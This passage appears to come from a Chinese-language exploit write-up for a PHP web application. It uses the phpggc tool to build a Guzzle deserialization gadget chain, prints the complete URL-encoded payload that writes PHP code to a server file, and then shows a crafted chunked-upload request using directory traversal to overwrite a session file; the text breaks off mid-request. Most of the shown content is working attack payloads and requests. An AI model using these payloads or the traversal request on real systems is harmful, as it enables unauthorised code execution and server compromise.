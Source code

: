   
或者直接使用 
```
phpggc 
```

  
快速生成：  

```
./phpggc -l | grep guzzle
Guzzle/FW1       4.0.0-rc.2 <= 7.5.0+       File write            __destruct
```

  
通过参数可知本条 
```
gadget chain 
```

  
合适。  
  
（1）类型是文件写入(File write)  
  
（2）触发向量是__destruct方法  
  
（3）版本兼容范围广(4.0.0-rc.2 到 7.5.0+)，覆盖了本框架中使用的 Guzzle 版本  

```
php ./phpggc Guzzle/FW1 ttest.php .\phpinfo.php -u
O%3A31%3A%22GuzzleHttp%5CCookie%5CFileCookieJar%22%3A4%3A%7Bs%3A36%3A%22%00GuzzleHttp%5CCookie%5CCookieJar%00cookies%22%3Ba%3A1%3A%7Bi%3A0%3BO%3A27%3A%22GuzzleHttp%5CCookie%5CSetCookie%22%3A1%3A%7Bs%3A33%3A%22%00GuzzleHttp%5CCookie%5CSetCookie%00data%22%3Ba%3A3%3A%7Bs%3A7%3A%22Expires%22%3Bi%3A1%3Bs%3A7%3A%22Discard%22%3Bb%3A0%3Bs%3A5%3A%22Value%22%3Bs%3A21%3A%22%3C%3Fphp%20phpinfo%28%29%3B%20%3F%3E%0D%0A%22%3B%7D%7D%7Ds%3A39%3A%22%00GuzzleHttp%5CCookie%5CCookieJar%00strictMode%22%3BN%3Bs%3A41%3A%22%00GuzzleHttp%5CCookie%5CFileCookieJar%00filename%22%3Bs%3A9%3A%22ttest.php%22%3Bs%3A52%3A%22%00GuzzleHttp%5CCookie%5CFileCookieJar%00storeSessionCookies%22%3Bb%3A1%3B%7D
```

  
这个 payload 利用了 PHP 的对象序列化机制，当反序列化 
```
FileCookieJar
```

  
 对象时，对象的 
```
__destruct
```

  
 方法会被调用，进而触发文件写入操作，将恶意 PHP 代码写入到服务器上的某个位置。  
### 步骤二：构造恶意请求，覆盖会话文件  
  
攻  
击者发送包含目录穿越的分片上传请  
求：  

```
POST /index/user/upload?chunkId=1/../../sessions/session_tXEWsmpuZEoZqJqMmSgqUYUFZzMwuRvL&index=1&fileExt=jpg HTTP/1.1
Host: 192.168.3.3:8787
Cookie: SESSION_ID=bbd4d396f614da41a0cb74da972ff844; uid=2; token=250e4ef8162d56748202c5ad95f1058c; nickname=go0p
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryGm1kPOLTg3kmc3MF
Content-Length: 733
------WebKitFormBoundaryGm1kPOLTg3kmc3MF
Content-Disposition: form-data; name=&#34;file&#34;; filename=&#34;1.&#34;
Content-Type: image/jpeg
```